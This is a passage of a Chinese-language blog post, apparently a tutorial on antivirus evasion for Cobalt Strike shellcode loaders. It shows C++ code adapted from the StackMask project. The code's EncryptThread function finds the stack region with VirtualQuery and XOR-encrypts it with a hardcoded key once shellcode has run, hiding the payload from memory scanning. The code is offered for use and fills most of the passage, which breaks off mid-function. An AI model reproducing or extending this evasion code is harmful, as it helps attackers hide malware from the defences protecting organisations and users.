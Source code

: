 

即便使用WriteProcessMemory将shellcode写入VirtualAlloc申请的堆内存里了，但它仍然存储在栈中

![image-20231017160633225](利用CS的Profile文件实现免杀/image-20231017160633225.png)



该[github](https://github.com/WKL-Sec/StackMask/tree/main)项目为我们提供了加密栈内存的代码，其主要函数是EncryptThread，它从堆中检索XOR密钥，然后使用VirtualQuery函数计算出堆栈的栈底和大小，最后遍历整个堆栈，并使用XOR密钥进行加密

让我们将EncryptThread函数应用在shellcodeloader上，当shellcode执行完毕后，加密存放shellcode的堆栈，

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <windows.h>

// 函数：加密线程
DWORD WINAPI EncryptThread(LPVOID lpParameter) {
    // 在堆上保存XOR密钥，这样在堆栈加密过程中它不会改变
    char* key = (char*)malloc(13 * sizeof(char));
    strcpy(key, "myprivatekey");
    int keyLength = strlen(key);

    // 将参数转换为堆栈指针
    unsigned char* rsp = (unsigned char*)lpParameter;

    // 获取存储shellcode的堆栈的地址范围
    MEMORY_BASIC_INFORMATION mbi;
    VirtualQuery(rsp, &mbi, sizeof(mbi));

    // 计算堆栈基址（堆栈底部）及其大小
    unsigned char* stackRegion = mbi.BaseAddress - 8192;
    unsigned char* stackBase = stackRegion + mbi.RegionSize + 8192;
    int stackSize = stackBase - rsp;

    // 打印堆栈信息
    printf("[+] The address of stack region: 0x%p\n", stackRegion);
    printf("[+] The address of stack base: 0x%p\n", stackBase);
    printf("[+] The stack size: %d bytes\n", stackSize);

    // 使用XOR密钥掩码堆栈
    unsigned char* p = (unsigned char*)rsp;
    for (int i = 0; i < stackSize; i++) {
        *(p++) ^= key[i % keyLength];
    }

    printf("[+] Stack is encrypted\n");
```